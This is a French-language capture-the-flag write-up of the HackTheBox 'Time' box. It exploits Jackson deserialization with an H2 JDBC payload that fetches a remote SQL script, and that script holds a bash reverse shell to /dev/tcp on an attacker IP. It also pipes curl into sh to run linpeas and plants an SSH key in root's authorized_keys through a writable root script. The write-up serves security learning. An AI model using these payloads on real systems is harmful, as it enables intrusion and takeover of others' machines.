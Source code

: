 ```yaml
---
title: " HackTheBox - [Time] "
description: Simple writeup of the Time box on Hackthebox.
---
```


![Time](https://media.discordapp.net/attachments/490431433559506954/832933487954231336/screenshot-193.png)


![r](https://cdn.discordapp.com/attachments/519930659620257797/832739076687134800/68747470733a2f2f692e696d6775722e636f6d2f344d37495777502e676966.gif)

## 0x1 - Scanning port


```sh
PORT STATE SERVICE VERSION 
22/tcp open ssh  OpenSSH 8.2p1 Ubuntu 4ubuntu (Ubuntu Linux;
protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On peut apercevoir qu'il y a le port ssh/22 et le port 80/http qui sont ouverts.

Nous allons jeter un coup d'œil au port http/80 pour voir ce qu'il y'a d'intéressant.


Nous voyons un embellisseur et un validateur json en ligne avec 2 options, "Beatify" et "Validate! (Beta)".

![A](https://media.discordapp.net/attachments/490431433559506954/832936431823224862/unknown.png)

J'ai intercepté les deux options dans burpsuite et je viens de saisir un échantillon de données ``JSON`` dans le champ de saisie, sélectionnez l'option ``Beautify`` et cliquez sur le bouton ``PROCESS`` . Nous pouvons voir que cela fonctionne. 

Maintenant, essayez la même chose sur ``"Validate! (Beta)"`` options : 

![a](https://media.discordapp.net/attachments/490431433559506954/832954307493756969/unknown.png)


Vous avez une erreur!

```sh
Validation failed: Unhandled Java exception:com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object
```


## 0x2 - User 

J'ai collé le message d'erreur dans la barre de recherche google : ```Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object``` Je suis tombé sur un article de stackoverflow, expliquant l'erreur en question.
<a href="https://stackoverflow.com/questions/26251486/jackson-polymorphic-deserialization-expected-start-array">here article</a>

Après l'avoir lu, j'ai compris que l'erreur est liée à Jackson Polymorphic Deserialization expected START_ARRAY.

Maintenant, vous devez créer un fichier inject.sql et ajouter un reverse shell en bash pour qu'il me rappelle. :

```sh
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.14.90/1337 0>&1 &')
```

Maintenant démarrer listenner avec netcat :

```sh
nc -nvlp 1337
listening on [any] 1337 ...
```

Et injecter votre payload sur l'option : "Validate!(Beta)".

```sh
[“ch.qos.logback.core.db.DriverManagerConnectionSource”,{“url”:”jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM ‘http://IP:PORT/inject.sql'”}]
```

Et vous obtenez un reverse shell sur l'user pericles.

```sh
listening on [any] 1337 ...
connect to [10.10.14.90] from (UNKNOWN) [10.10.10.214] 42212
```


Pour avoir un reverse shell stable type :

```sh
$python -c “import pty;pty.spawn(‘/bin/bash’)”
$export TERM=xterm
```

Vous obtenez l'user flag :

```
pericles@time:/home/pericles$ cat user.txt 
cat user.txt
7u7243a41d508868b8c935c47b554ad7
```
## 0x3 - Privilege Escalation

Maintenant nous allons upload Linpeas ( LinPEAS est un script qui recherche des chemins possibles pour augmenter les privilèges sous Linux ).

Installer linpeas : <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">Linpeas</a>

Start un serveur python où se trouve votre fichier linpeas.sh et curl vers la machine cible.

```
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```

Nous pouvons voir que root a accédé à ce fichier: «/usr/bin/timer_backup.sh». Qui appartient à votre utilisateur et est accessible en écriture et writeable.


![ak](https://media.discordapp.net/attachments/490431433559506954/832944544067878932/unknown.png)


Vous devez créer votre clé ssh, ajouter notre clé publique SSH au fichier allowed_keys sur le serveur. Pour ce faire, suivez les commandes suivants :


```sh
ssh-keygen
( no passphrase ) 
Copier votre clée id_rsa.pub key 
Et effectuez cette command sur la machine cible. : echo "echo id_rsa.pub >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```

Maintenant vous faites un ``chmod 600`` pour avoirs les permissions puis vous vous connecter au port ssh avec la clée ``id_rsa`` : 


```sh
chmod 600 id_rsa && ssh -i id_rsa root@10.10.10.214
```

Done ! 

```sh
root@time:~# whoami
root
root@time:~# id
uid=0(root) gid=0(root) groups=0(root) 
```

Nous avons root la machine avec succès.

```sh
root@time:~# cat /root/root.txt
adsd9hf0c86b8786477033415e3018a4
```

##  Summary Of Knowledge : 

- Java Deserialization
- System Timer Exploitation

## About me :

- Post author : x0ld
- Github : https://github.com/x0ld
- Twitter : @x0ld7
- HTB : https://www.hackthebox.eu/home/users/profile/491690


